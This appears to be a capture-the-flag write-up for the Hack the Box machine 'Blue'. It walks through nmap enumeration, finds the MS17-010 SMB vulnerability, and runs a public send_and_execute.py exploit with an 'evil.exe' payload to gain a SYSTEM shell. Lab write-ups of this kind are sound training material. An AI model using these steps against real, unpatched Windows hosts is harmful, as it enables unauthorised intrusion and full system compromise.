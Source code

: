 ```yaml
---
title: Hack the Box - Blue
date: 2022-08-15 19:30 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


# Blue Overview

## Machine Details:

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.40|Blue|Windows|

## Path to Exploitation

We leverage the host's vulnerability to MS17-010 to fully compromise the host.

# Enumeration 

## Full Port Scan

```bash
nmap 10.10.10.40 -p- -oA Blue/nmap/full-port --open -Pn -vv
```

Which Resulted In:

|PORT|SERVICE|
|----|-------|
|135|msrpc|
|139|netbios-ssn|
|445|microsoft-ds|
|49152|unknown|
|49153|unknown|
|49154|unknown|
|49155|unknown|
|49156|unknown|
|49157|unknown|

## Service Scan

```bash
nmap 10.10.10.40 -p 135,139,445,49152,49153,49154,49155,49156,49157 -sC -sV -oA Blue/nmap/service-scan -Pn
```

Which Resulting In:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|135|msrpc|Windows RPC|
|139|netbios-ssn|Windows netbios-ssn|
|445|microsoft-ds|7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)|
|49152|msrpc|Windows RPC|
|49153|msrpc|Windows RPC|
|49154|msrpc|Windows RPC|
|49155|msrpc|Windows RPC|
|49156|msrpc|Windows RPC|
|49157|msrpc|Windows RPC|

# SMB

## SMB Nmap Scan

```shell
$ nmap -p 139,445 --script=smb-vuln* 10.10.10.40 -Pn -oA nmap/smb-scan
```
```cmd
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
```

<mark>We see the host is vulnerable to MS17-010</mark>

# Exploitation and Privilege Escalation

We can use the [send_and_execute.py](https://github.com/k4u5h41/MS17-010_CVE-2017-0143) script to attack the machine.

Use the checker.py script to identify the named pipes available
```shell
$ python checker.py 10.10.10.40
```
![SMB Checker](/assets/HackTheBox/Blue/exploit-check.png "Checking Pipes")

We can try supplying the guest username to the script and seeing if we get different results.
![With Guest User](/assets/HackTheBox/Blue/modify-checker.png "With Guest User")
```shell
$ python checker.py 10.10.10.40
```
![Found Pipes](/assets/HackTheBox/Blue/found-pipes.png "Found Valid Pipes")

We can now try executing the send_and_execute.py script using the guest user.

![Modify the Exploit](/assets/HackTheBox/Blue/modify-exploit.png "Modify the Exploit")

```shell
$ python send_and_execute.py 10.10.10.40 evil.exe 445
```
![Launch Exploit](/assets/HackTheBox/Blue/exploit.png "Launch the Exploit")

We now have a shell on the machine as the SYSTEM account
![Shell on Host](/assets/HackTheBox/Blue/shell.png "SYSTEM Shell")


